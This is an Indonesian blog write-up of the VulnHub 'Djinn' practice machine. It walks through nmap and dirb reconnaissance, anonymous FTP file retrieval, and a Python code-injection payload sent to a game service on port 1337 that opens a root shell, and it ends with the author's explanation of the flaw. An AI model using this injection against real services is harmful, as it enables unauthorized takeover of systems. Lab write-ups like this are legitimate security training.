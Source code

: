 ```yaml
---
title: '[VulnHub] Djinn WriteUp'
date: 2019-12-21T20:09+07:00
categories: blog
tags:
  - vulnhub
  - writeup
  - code injection
  - python
---
```


## Information Gathering
### nmap

`nmap -sC -sV -p- djinn.vh -v -oN initial.nmap`
```
PORT     STATE    SERVICE VERSION
21/tcp   open     ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-r--r--    1 0        0              11 Oct 20 23:54 creds.txt
| -rw-r--r--    1 0        0             128 Oct 21 00:23 game.txt
|_-rw-r--r--    1 0        0             113 Oct 21 00:23 message.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:192.168.43.192
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp   filtered ssh
1337/tcp open     waste?
| fingerprint-strings: 
|   NULL: 
|     ____ _____ _ 
|     ___| __ _ _ __ ___ ___ |_ _(_)_ __ ___ ___ 
|     \x20/ _ \x20 | | | | '_ ` _ \x20/ _ \n| |_| | (_| | | | | | | __/ | | | | | | | | | __/
|     ____|__,_|_| |_| |_|___| |_| |_|_| |_| |_|___|
|     Let's see how good you are with simple maths
|     Answer my questions 1000 times and I'll give you your gift.
|     '/', 1)
|   RPCCheck: 
|     ____ _____ _ 
|     ___| __ _ _ __ ___ ___ |_ _(_)_ __ ___ ___ 
|     \x20/ _ \x20 | | | | '_ ` _ \x20/ _ \n| |_| | (_| | | | | | | __/ | | | | | | | | | __/
|     ____|__,_|_| |_| |_|___| |_| |_|_| |_| |_|___|
|     Let's see how good you are with simple maths
|     Answer my questions 1000 times and I'll give you your gift.
|_    '-', 2)
7331/tcp open     http    Werkzeug httpd 0.16.0 (Python 2.7.15+)
| http-methods: 
|_  Supported Methods: HEAD OPTIONS GET
|_http-server-header: Werkzeug/0.16.0 Python/2.7.15+
|_http-title: Lost in space
```
Ada `ftp` di port 21, `ssh` di port 22 tapi filtered, `http` di port `7331`, dan netcat(?) di port `1337`.

### ftp
Login ke `ftp` dan download file `creds.txt`, `game.txt`, `message.txt`.  

*games.txt*
```
oh and I forgot to tell you I've setup a game for you on port 1337. See if you can reach to the 
final level and get the prize.
```

*creds.txt*
```
nitu:81299
```

*message.txt*
```
@nitish81299 I am going on holidays for few days, please take care of all the work. 
And don't mess up anything.
```

### dirb
`dirb http://djinn.vh/ /usr/share/wordlists/big.txt`

```
GENERATED WORDS: 20458                                                         

---- Scanning URL: http://djinn.vh:7331/ ----
+ http://djinn.vh:7331/genie (CODE:200|SIZE:1676)                                                                                          
                                                                                                                                           
(!) FATAL: Too many errors connecting to host
    (Possible cause: EMPTY REPLY FROM SERVER)
                                                                               
-----------------
END_TIME: Sat Dec 21 20:14:37 2019
DOWNLOADED: 16063 - FOUND: 1
```
Berhubung `dirb`nya ternyata error cuma nemu satu dir dan saya terlalu males buat `dirb` atau enum 
ulang. Saya asumsikan attack vectornya bukan dari web.  

*index.html*
![index](/assets/images/Djinn/djinn.png){: img_content }

*/genie*
![genie](/assets/images/Djinn/genie.png){: img_content }

## Exploitation
### 1337
`nc djinn.vh 1337`
```
 / ___| __ _ _ __ ___   ___  |_   _(_)_ __ ___   ___ 
| |  _ / _` | '_ ` _ \ / _ \   | | | | '_ ` _ \ / _ \
| |_| | (_| | | | | | |  __/   | | | | | | | | |  __/
 \____|\__,_|_| |_| |_|\___|   |_| |_|_| |_| |_|\___|
                                                     

Let's see how good you are with simple maths
Answer my questions 1000 times and I'll give you your gift.
(1, '-', 2)
>
```
Karena dari point `http-server-header` dari hasil scan `nmap` menggunakan backend python, mungkin flask(?). Saya iseng untuk melakukan code injection `__import__('os').system('/bin/sh')` ke port ini... dan ternyata work dan kita langsung mendapat user `root` :haha:
![root](/assets/images/Djinn/root.png){: img_content }  

Tinggal cari flag rootnya lalu selesai :rofl:
![root](/assets/images/Djinn/rootflag.png){: img_content }

Sebenernya attack vector ini murni hoki karena gak ada indikator bahwa app yang berjalan di port 1337 tadi menggunakan python. Seharusnya code injection dilakukan di web server di `http://djinn.vh/wish` seperti yang dilakukan di [artikel ini](https://www.hackingarticles.in/djinn1-vulnhub-walkthrough/). Namun karena pada tahap reconnaisance `dirb` saya error jadi saya tidak menemukan direktori `/wish` tersebut.  

Setelah ditelusuri source code aplikasi di port 1337 tersebut ada di `/opt/1337/app.py`. Code injection tersebut bisa berjalan karena tidak adanya filtering/sanitization input dari user dan penggunaan versi python yang outdated (v2.7.15), dan ditambah app tersebut dijalankan oleh user `root`.

Sekian writeup kali ini, see ya!



